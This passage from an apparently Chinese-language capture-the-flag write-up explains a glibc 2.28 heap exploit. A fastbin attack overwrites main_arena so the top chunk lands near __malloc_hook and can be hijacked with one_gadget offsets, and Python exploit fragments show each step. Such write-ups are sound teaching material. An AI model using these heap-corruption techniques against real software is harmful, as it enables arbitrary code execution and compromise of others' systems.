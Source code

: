 #### <a class="reference-link" name="fastbin%20atk%20,%20%E5%8A%AB%E6%8C%81top%20chunk%E8%BE%BE%E6%88%90%E5%88%A9%E7%94%A8"></a>fastbin atk , 劫持top chunk达成利用

因为限制了我们chunk size大小最大只能是0x60，所以我们并不能直接控制malloc_hook。

下面我们进行的就是通过fastbin attack劫持top chunk。

因为我们知道main_arena是libc内的一段区域，其中存储着fastbin、top_chunk的开始节点，我们要做的就是控制top_chunk的指针，使其指向malloc_hook附近，那么下次通过top chunk申请chunk的时候，就会在malloc_hook附近切割，使得我们控制malloc_hook的内容。

具体可以参考2018-0ctf-babyheap[，我就不再赘述了。](https://bbs.pediy.com/thread-226037.htm)

```
#fastbin attack and then modify the top_chunk address.
delete(0) # put chunk in fastbin , prepare for fastbin attack
#addr1 = 0x7ffff7fc6c6d  offset = 0x1e4c6d padding = 0x23 
addr1 = libc_base + 0x1e4c6d
add(0x48) # idx 0 = idx 4
delete(0)
edit(4,8,p64(addr1))
add(0x48) # idx 0

add(0x48) # idx 11 get the main_arena

elf = ELF('./libc-2.28.so')
new_top = libc_base + elf.symbols['__malloc_hook'] - 0x28
one_gadget = libc_base + 0x501e3
jump_gadget = libc_base + 0x105ae0

print 'new_top : ' + hex(new_top)
print 'one_gadget : ' + hex(one_gadget)
print 'jump_gadget : '+ hex(jump_gadget)

payload = 'x00'*0x23 + p64(new_top)
edit(11,len(payload),payload)
```

至此我们已经将top_chunk指向了malloc_hook附近，但是现在unsorted bin中还是chunk，我们要先将unsorted bin中的chunk消耗掉，然后才能在top-chunk中切割。

我是直接通过分配消耗掉unsorted binchunk的，当时熬夜写的exp写的有些混乱，看了师傅们的exp也可以通过别的姿势：因为我们已经可以控制main_arena了，那么我们每次free掉fastbin 之后，就可以通过edit main_arena，将fastbin置零，使得其中没有chunk，然后继续malloc。这样就不需要考虑序号的问题了。

```
delete(0)
delete(1)
delete(2)
delete(3)
#consume the unsorted bin
for i in range(4):
    add(0x58)

add(0x48)
add(0x48)
add(0x58)
```

